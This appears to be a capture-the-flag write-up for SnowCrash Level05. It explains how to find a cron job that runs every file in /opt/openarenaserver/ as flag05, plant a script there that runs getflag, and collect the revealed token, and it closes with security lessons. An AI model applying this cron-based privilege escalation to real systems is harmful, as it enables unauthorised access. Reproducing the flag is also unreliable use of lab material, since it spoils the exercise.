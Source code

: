 # Level05 - Cron Job Exploitation

## Challenge Overview

Level05 involves discovering and exploiting a scheduled task (cron job) that runs with elevated privileges. The challenge teaches about:

- Identifying system messages and notifications
- Discovering cron jobs through system inspection
- Understanding file permissions and privilege escalation
- Exploiting insecure script execution paths

## Initial Reconnaissance

When logging in as level05, you might notice a system message:

```
You have new mail.
```

This is our first clue - there's something important in the mail spool.

## Investigation

### Step 1: Check the mail

In Linux systems, the mail system is a simple text-based messaging service that allows users and system processes to communicate. System mail is often used by:

- Cron jobs to report errors or output
- System administrators to notify users
- System services to report critical information

Each user's mail is typically stored in a file at `/var/mail/username` or `/var/spool/mail/username`. When you see a "You have new mail" message, it's worth investigating as it often contains important system information.

```bash
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This reveals a cron job that runs every 2 minutes as the flag05 user, executing `/usr/sbin/openarenaserver`.

#### The Cron Schedule (First 5 Fields)

- First position (_/2): Runs every 2 minutes (_/2 means "every 2" in the minute position)
- Second position (\*): Every hour
- Third position (\*): Every day of month
- Fourth position (\*): Every month
- Fifth position (\*): Every day of week

  So this translates to: "Run every 2 minutes, 24/7"

#### The Command Part

- su: Switch user command
- -c: Option that means "execute the following command"
- "sh /usr/sbin/openarenaserver": The command to execute (runs the script using sh)
- -: Provides a clean environment for the new user session
- flag05: The user to switch to when running the command

### Step 2: Examine the script

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

The script:

- Uses a `for` loop to iterate through all files in `/opt/openarenaserver/`
- For each file found:
  - Sets a CPU time limit of 5 seconds (`ulimit -t 5`)
  - Executes the file with bash in debug mode (`bash -x`)
  - Deletes the file after execution (`rm -f`)
- The script runs with flag05's permissions due to the cron job

## Vulnerability Analysis

The vulnerability lies in the script executing any file placed in `/opt/openarenaserver/` with flag05's permissions.

## Exploitation Strategy

1. Create a script in the target directory that executes `getflag`
2. Make it executable
3. Wait for the cron job to run it (within 2 minutes)
4. The result will be captured for later viewing

## Exploitation Steps

### Step 1: Create a script that captures the flag

```bash
$ echo '#!/bin/sh' > /opt/openarenaserver/exploit.sh
$ echo 'getflag > /tmp/flag05' >> /opt/openarenaserver/exploit.sh
$ chmod +x /opt/openarenaserver/exploit.sh
```

### Step 2: Wait for execution

Wait up to 2 minutes for the cron job to execute our script.

### Step 3: Retrieve the captured output

```bash
$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## Security Lessons

1. **Principle of Least Privilege**: Cron jobs should run with the minimum privileges needed.

2. **Secure Script Paths**: Scripts that run with elevated privileges should be in secure locations not writable by lower-privileged users.

3. **Input Validation**: The `for` loop in the script executes any file without validation, creating a security risk.

4. **Regular Security Audits**: Cron jobs should be regularly audited for security issues.

## Summary

This challenge demonstrates a common privilege escalation vector through insecure cron job configuration. By abusing a script that automatically executes user-created files, we were able to escalate to flag05's privileges and capture the token.

The flag for level05 is: `viuaaale9huek52boumoomioc`
